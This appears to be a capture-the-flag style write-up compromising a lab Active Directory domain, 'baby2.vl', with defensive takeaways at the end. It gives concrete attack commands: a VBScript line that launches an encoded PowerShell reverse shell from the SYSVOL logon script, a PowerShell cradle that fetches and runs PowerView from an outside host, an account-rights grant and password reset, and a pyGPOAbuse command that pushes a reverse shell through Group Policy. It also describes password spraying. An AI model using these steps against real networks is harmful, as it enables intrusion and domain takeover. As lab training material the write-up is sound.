





## 1. Reconnaissance

### 1.1 Nmap

An Nmap scan identified a Domain Controller, confirming an Active Directory environment.



### 1.2 Guest SMB Access

The built-in **Guest** account had unusually broad SMB permissions, including access to a number of shares and the ability to perform an RID-brute to enumerate domain users.



The shares included a `NETLOGON`/`SYSVOL` pair, a `CHANGELOG`, and a `login.vbs.lnk` shortcut worth investigating further.

---

## 2. Credential Discovery

### 2.1 Password Spraying

A quick credential spray using each username as its own password (`user:user` style) against the enumerated user list returned two valid, low-privilege accounts: **library** and **carl.moore**.



Kerberoasting with the recovered credentials did not return any results.



And no WinRM, WMI, or RDP access was available — leaving the writable/readable SMB shares as the most promising avenue.

---

## 3. Initial Foothold — SYSVOL Logon Script Abuse

### 3.1 Investigating the Logon Script

Of the available shares, `docs` was empty and `homes` contained only empty per-user folders. The `login.vbs.lnk` shortcut found earlier was inspected using `lnkinfo`, revealing its target path pointed to the domain's `SYSVOL` logon script.


### 3.2 Overwriting the Logon Script

Although the account only had nominal **read** access to the `SYSVOL` share, it was found that the logon script could still be deleted and replaced — an unexpected permissions inconsistency. 

Additionally, it turns out that targeting the `.lnk` file doesn't seem to be working. So we'll instead target the login.vbs script itself. 

So we'll have the script send us back a reverse shell. We want to use a powershell reverse shell oneliner that we can get from [<u>revshells.com</u>](revshells.com) or from `nishang`. Adding this line directly after `End Sub` in the `login.vbs` script will have the machine send us a shell.

```
CreateObject("WScript.Shell").Run "powershell -e <b64 payload>", 0, True
```

Once a victim triggered the logon script, a (low-quality, but functional) reverse shell was caught, confirming the technique worked and providing a foothold as a new domain user.

---

## 4. Privilege Escalation

### 4.1 Enumeration

With a shell in hand, `winPEAS` was run and returned useful output, including weak Kerberos/NTLM configuration details for the host and a recovered NTLM hash for the new user, **Amelia.Griffiths**.


### 4.2 Identifying the GPO Abuse Path

BloodHound analysis showed that **Amelia.Griffiths** was a member of the **Legacy** group, which held `WriteDacl`/`WriteOwner` rights over the `gpoadm` account, which in turn had `GenericAll` rights over the Default Domain Policy GPO — a path leading directly to Domain Admin.



### 4.3 Obtaining control of gpoadm

To abuse `WriteDacl` as Amelia, we need to upload PowerView to the target.

```powershell
# host machine - serve the script
python -m http.server 80

# target machine - download the script and execute it
iex (iwr -usebasicparsing http://10.10.14.18/PowerView.ps1)
```

Then we want to give ourselves rights over the `gpoadm` account, and change its password.

```powershell
# grant rights
add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"

# change password
$cred = ConvertTo-SecureString 'Password1!' -AsPlainText -Force
set-domainuserpassword gpoadm -accountpassword $cred
```

Now we can authenticate to the `gpoadm` account!

### 4.4 Exploiting the GPO

The path was abused using PowerView and `pyGPOAbuse`:

- The target GPO's ID was identified from BloodHound's GPO File Path in the object description.
- `pyGPOAbuse` was used to inject a malicious scheduled task into the GPO:

```bash
python3 pygpoabuse.py baby2.vl/gpoadm:'Password1!' -command "powershell -exec bypass -enc <b64 rev shell>" -dc-ip 10.129.37.232 -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"
```

- That command will create a `ScheduledTask`.
- Then we run `gpupdate` on the target machine and it will update the group policies and execute our new reverse shell as `Administrator@baby2.vl` giving us Domain Admin!

---

## 5. Summary

| Stage | Technique |
|---|---|
| Recon | Nmap identified a Windows Domain Controller |
| Enumeration | Guest SMB access exposed shares and allowed a full RID-brute of domain users |
| Credential Discovery | Username-as-password spraying recovered two valid low-privilege accounts |
| Initial Access | A misconfigured `SYSVOL` share allowed the domain logon script to be overwritten with a reverse shell payload |
| Privilege Escalation | winPEAS + BloodHound revealed a `Legacy` group → `gpoadm` → GPO `GenericAll` path, abused via `pyGPOAbuse` to push a malicious scheduled task through Group Policy → Domain Admin |

### Key Takeaways
- Overly permissive Guest access to SMB shares can expose far more of the domain (shares, RID-brute, logon scripts) than intended.
- Permissions on `SYSVOL`/`NETLOGON` should be tightly scoped — write access to logon scripts is equivalent to remote code execution against anyone who logs in.
- BloodHound remains invaluable for surfacing non-obvious privilege escalation paths, such as legacy group memberships that grant indirect control over GPOs.
- Tools like `pyGPOAbuse` make GPO-based privilege escalation paths straightforward to exploit once the right object permissions are identified.
